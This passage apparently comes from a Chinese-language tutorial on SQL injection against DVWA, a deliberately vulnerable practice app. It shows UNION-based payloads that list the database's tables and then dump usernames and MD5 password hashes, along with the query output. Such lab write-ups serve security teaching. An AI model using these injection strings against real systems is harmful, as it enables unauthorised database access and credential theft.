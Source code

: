 ```
# 输入框
1' union select table_name,table_schema from
information_schema.tables where table_schema= 'dvwa'#
# 生成SQL
SELECT first_name, last_name FROM users WHERE user_id = '1'
union select table_name,table_schema from
information_schema.tables where table_schema= 'dvwa'#
```

结果：

```
ID: 1' union select table_name,table_schema from
information_schema.tables where table_schema= 'dvwa'#
First name: admin
Surname: admin
ID: 1' union select table_name,table_schema from
information_schema.tables where table_schema= 'dvwa'#
First name: guestbook
Surname: dvwa
ID: 1' union select table_name,table_schema from
information_schema.tables where table_schema= 'dvwa'#
First name: users
Surname: dvwa
```

通过上图返回信息，我们再获取到： dvwa 数据库有两个数据表，分别是 guestbook 和 users

（6）尝试获取重量级的用户名、密码

由经验我们可以大胆猜测 users 表的字段为 user 和 password ，所以输入：`1' union select user,password from users`# 进行查询：

```
# 输入框
1' union select user,password from users#
# 生成SQL
SELECT first_name, last_name FROM users WHERE user_id = '1'
union select user,password from users#
```

```
ID: 1' union select user,password from users#
First name: admin
Surname: admin
ID: 1' union select user,password from users#
First name: admin
Surname: 21232f297a57a5a743894a0e4a801fc3
ID: 1' union select user,password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: 1' union select user,password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: 1' union select user,password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: 1' union select user,password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: 1' union select user,password from users#
First name: user
Surname: ee11cbb19052e40b07aac0ca060c23ee
```
